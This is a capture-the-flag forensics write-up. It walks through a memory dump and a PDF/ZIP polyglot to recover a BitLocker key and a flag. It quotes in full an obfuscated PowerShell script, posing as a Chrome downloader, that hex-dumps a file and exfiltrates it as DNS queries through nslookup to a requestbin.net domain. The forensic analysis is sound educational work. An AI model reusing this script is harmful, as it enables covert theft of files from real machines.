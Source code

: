 # Trust Issues

We have the memory dump of Mark's PC and a file ```confidential.pdf``` which was in his computer. We can either start with analysing the memory dump or the suspicious pdf.

## Analysing the memory dump

```bash
vol.py -f trustissues.raw imageinfo
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/deathblade/ctf/DNS/trustissues.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf800029f3130L
          Number of Processors : 4
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff800029f5000L
                KPCR for CPU 1 : 0xfffff88002e40000L
                KPCR for CPU 2 : 0xfffff88002ebf000L
                KPCR for CPU 3 : 0xfffff88002f3e000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2020-12-26 10:59:24 UTC+0000
     Image local date and time : 2020-12-26 02:59:24 -0800
```

Now we have a profile.

Let us do another usual command:

```bash
vol.py -f trustissues.raw --profile=Win7SP1x64 filescan |grep Desktop
```

This should give a long list of files. In this we can find the directory ```Setup files given by sysadmin``` in which there are some setup scripts and installer files. We also notice a ```ChromeDownload.ps1``` which is odd cause why does downloading chrome need a powershell script?

So let us dump this powershell script and see what it contains:

```bash
vol.py -f trustissues.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007d845a10 -D .
cat file.None.0xfffffa8001d33ca0.dat
```

We find the following script:

```powershell
.("{0}{1}"-f 'ech','o'  ) 'Downloading Chrome......'

  & (  "{3}{4}{1}{0}{2}"-f 'eque','R','st','I','nvoke-Web' ) https://dl.google.com/tag/s/appguid%3D%7B8A69D345-D564-463C-AFF1-A69D9E530F96%7D%26iid%3D%7B61A54C60-6972-227A-921D-DAD2B3C34001%7D%26lang%3Den%26browser%3D5%26usagestats%3D1%26appname%3DGoogle%2520Chrome%26needsadmin%3Dprefers%26ap%3Dx64-stable-statsdef_1%26brand%3DONGR%26installdataindex%3Ddefaultbrowser/update2/installers/ChromeSetup.exe -OutFile ChromeSetup.exe

${D`UMp}    =     & ( "{1}{0}{2}"-f 't-','Forma','Hex') -Path 'D:\Bitlo*'
${d`NS}   =    '.7965708720dcbe1fbd5b.d.requestbin.net'

for( ${i}     =     0  ;    ${D`UmP}[${I}];    ${I}++ )
{
    ${h`eX}    =  ${d`UMp}[${i}].ToString(   )
    ${h`EX}   = ${H`Ex}.replace(  ' ','' )
    if( ${I} -lt (${du`MP}.length - 1) )
    {
         ${H`eX}   =   ${h`eX}.Substring(   8,32  )
    }
    else
    {
        ${l`En`GTH}  =     (   (  ${H`ex}.length - 8  )*2  )/3
        ${H`eX}   =   ${h`eX}.Substring(   8,${l`EngtH}  )
    }
      . (  "{1}{2}{0}" -f 'up','nslo','ok') ( ${H`eX}     + ${d`Ns}  ) *>${N`ULl}
}

.("{1}{0}"-f'cho','e'  ) 'Downloaded Chrome'
```

We see an obfuscated script which does hella lot more than just download chrome. On deobfuscating it, we can see that it is converting a file at ```D:\Bitlo*``` into a hexdump and sending it as DNS requests using ```nslookup``` command part by part. This is some sort of a (n00bish) DNS exfiltration attack, performed by the sysadmin who gave these files. (You could have also easily been tipped off by the ```nslookup.exe``` processes in pslist or pstree)

We are also not able to dump nor scan the files in ```D:\```. One way to get the files would be to carve the packets out of the memory dump. You can either use caploader in Windows or you could find third party plugins for volatility such as ethscan or the one used [here](https://github.com/Memoryforensics/carve_packets).

```bash
vol.py --plugins=carve_packets -f trustissues.raw --profile=Win7SP1x64 networkpackets -D .
```

The packets are dumped at ```packets.pcap```. Let us open it in wireshark:

![Wireshark](includes/wireshark.png)

We can see that there is a pattern of query responses of DNS TXID = 2 followed by a Server failure (as it does not correspond to any IP; but note that it is enough for the data to reach the attacker's name server as a query) of TXID = 3 and a No such name response of TXID = 1. Hence for filtering out the hex data, ```dns.id == 2``` is a sufficient filter in our case.

Let us use tshark for this as it is easier to work with in command line:

```bash
 tshark -Y "dns.id == 2" -T fields -e "dns.qry.name"  -r packets.pcap | cut -d '.' -f1 |xxd -r -p
tLocker protected drive.

To verify that this is the correct recovery key compare the identification with what is presented on the recovery screen.

Recovery key identification: ABC7C7A1-9BEE-4F
Full recovery key identification: ABC7C7A1-9BEE-4F1C-90F7-5AB6D66CD465

BitLocker Recovery Key:
299981-297792-361471-261789-114642-633501-520685-433719

��BitLocker Drive Encryption Recovery Key

The recovery key is used to recover the data on a Bi
```

Thus, we have obtained a BitLocker recovery key (packets are disarranged here) which can be used to unlock a drive.

## Analysing the PDF

It is strange that a 5 page pdf has a size of roughly 81 MB. Let us see what is in this:

```bash
 binwalk confidential.pdf 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
42            0x2A            Zip archive data, at least v2.0 to extract, compressed size: 939559, uncompressed size: 939559, name: confidential.pdf
939647        0xE567F         Zip archive data, at least v2.0 to extract, compressed size: 80507861, uncompressed size: 83886592, name: confidential.vhd
81447678      0x4DACAFE       End of Zip archive, footer length: 22

```

We got a ZIP PDF polyglot. On unzipping the PDF, we get the VHD file.

```bash
fdisk -l confidential.vhd
Disk confidential.vhd: 80 MiB, 83886592 bytes, 163841 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x6e388fd9

Device            Boot Start    End Sectors Size Id Type
confidential.vhd1        128 157823  157696  77M  7 HPFS/NTFS/exFAT
```

We have the mountable drive starting at offset ```$((512*128)) = 65536```.

```bash
dd if=confidential.vhd of=mountable.dd bs=65536 skip=1
1279+1 records in
1279+1 records out
83821056 bytes (84 MB, 80 MiB) copied, 0.128413 s, 653 MB/s

file mountable.dd
mountable.dd: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "-FVE-FS-", sectors/cluster 8, reserved sectors 0, Media descriptor 0xf8, sectors/track 63, heads 255, hidden sectors 128, FAT (32 bit), sectors/FAT 8160, serial number 0x0, unlabeled; NTFS, sectors/track 63, physical drive 0x1fe0, $MFT start cluster 393217, serial number 02020454d414e204f, checksum 0x41462020
```

This is a BitLocker encrypted drive as indicated by the ```-FVE-FS-``` header. Mounting this will require ```libbde-utils```.

## Getting the flag

```bash
mkdir mountpoint

bdemount -r 299981-297792-361471-261789-114642-633501-520685-433719 mountable.dd mountpoint/

cp mountpoint/bde1 .

chmod 777 bde1

mkdir new_mountpoint

mount bde1 new_mountpoint

ls new_mountpoint/
'System Volume Information'  'Technical Business Document.docx'   flag.txt

cat new_mountpoint/flag.txt
p_ctf{1_wi$h_y0u_DNSee_th3_kEy}
```
